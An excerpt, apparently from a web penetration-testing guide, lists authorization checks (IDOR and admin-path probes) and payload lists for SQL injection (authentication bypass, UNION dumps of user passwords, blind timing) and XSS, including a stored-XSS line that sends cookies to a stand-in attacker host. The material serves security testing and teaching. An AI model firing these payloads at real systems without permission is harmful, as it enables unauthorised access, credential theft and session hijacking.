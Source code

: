 ### Phase 3: Authorization Testing
```bash
# Test for:
□ Horizontal privilege escalation
□ Vertical privilege escalation
□ Insecure Direct Object Reference (IDOR)
□ Missing function level access control

# IDOR testing
# Try accessing other users' resources
/user/profile?id=123
/user/profile?id=124
/api/user/123/details
/api/user/124/details

# Privilege escalation
# Access admin functions as regular user
/admin/users
/api/admin/settings
```

### Phase 4: Input Validation Testing

#### SQL Injection
```sql
# Authentication bypass
' OR '1'='1'--
admin'--
' OR '1'='1'/*

# Error-based
' AND 1=CONVERT(int,(SELECT @@version))--

# Union-based
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT username,password,email FROM users--

# Boolean-based blind
' AND 1=1--
' AND 1=2--

# Time-based blind
'; WAITFOR DELAY '00:00:05'--
' OR SLEEP(5)--
```

#### XSS Testing
```html
# Reflected XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

# Stored XSS
<script>document.location='http://attacker.com/?c='+document.cookie</script>

# DOM XSS
# Check JavaScript that processes URL parameters
# Test with: #<script>alert('XSS')</script>
```
